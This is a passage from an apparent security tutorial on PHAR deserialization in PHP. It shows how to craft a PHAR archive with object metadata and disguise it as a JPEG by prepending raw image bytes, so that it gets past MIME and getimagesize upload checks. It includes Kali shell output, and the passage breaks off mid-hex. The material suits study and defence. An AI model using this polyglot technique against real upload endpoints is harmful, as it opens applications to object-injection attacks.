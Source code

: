```php
  // add the test object as meta data
  $phar->setMetadata($o);
  $phar->stopBuffering();

  // rename phar to jpg
  rename("test.phar", "test.jpg");
?>
```
Will it be a valid PHAR and JPEG image?
```bash
root@kali:~# file test.jpg 
test.jpg: JPEG image data
root@kali:~# php -a
Interactive mode enabled

php > var_dump(mime_content_type('test.jpg'));
string(10) "image/jpeg"
php > var_dump(file_exists('phar://test.jpg/test.txt'));
bool(true)
php > 
```
PHP recognizes it as an image **and** we can still explore the contents of the archive!

#### The next level

We have a file that would pass any check based on file headers, however anything more sofisticate than that would fail. For example, checking the image with `getimagesize` will return false, since we do not have a "real" image:
```bash
root@kali:~# php -a
Interactive mode enabled

php > var_dump(getimagesize('test.jpg'));
bool(false)
php > 
```
But wait, we saw that we can inject as much gibberish we want before the `__HALT_COMPILER()` token. What if we craft a full image?

Can we simply create a 1x1 image with GIMP and embed it?
```php
<?php
  // a generic object class
  class TestObject {}

  // 1x1 JFIF image/JPEG Hex
  $jpeg =
  "\xFF\xD8\xFF\xE0\x00\x10\x4A\x46\x49\x46\x00\x01\x01\x01\x01\x2C\x01\x2C\x00\x00\xFF\xFE\x00\x18\x43".
  "\x72\x65\x61\x74\x65\x64\x20\x62\x79\x20\x46\x61\x62\x69\x6F\x20\x43\x6F\x67\x6E\x6F\xFF\xDB\x00\x43".
  "\x00\x03\x02\x02\x03\x02\x02\x03\x03\x03\x03\x04\x03\x03\x04\x05\x08\x05\x05\x04\x04\x05\x0A\x07\x07".
  "\x06\x08\x0C\x0A\x0C\x0C\x0B\x0A\x0B\x0B\x0D\x0E\x12\x10\x0D\x0E\x11\x0E\x0B\x0B\x10\x16\x10\x11\x13".
  "\x14\x15\x15\x15\x0C\x0F\x17\x18\x16\x14\x18\x12\x14\x15\x14\xFF\xDB\x00\x43\x01\x03\x04\x04\x05\x04".
  "\x05\x09\x05\x05\x09\x14\x0D\x0B\x0D\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14".
  "\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14".
  "\x14\x14\x14\x14\x14\x14\x14\x14\x14\xFF\xC2\x00\x11\x08\x00\x01\x00\x01\x03\x01\x11\x00\x02\x11\x01".
  "\x03\x11\x01\xFF\xC4\x00\x14\x00\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01".
```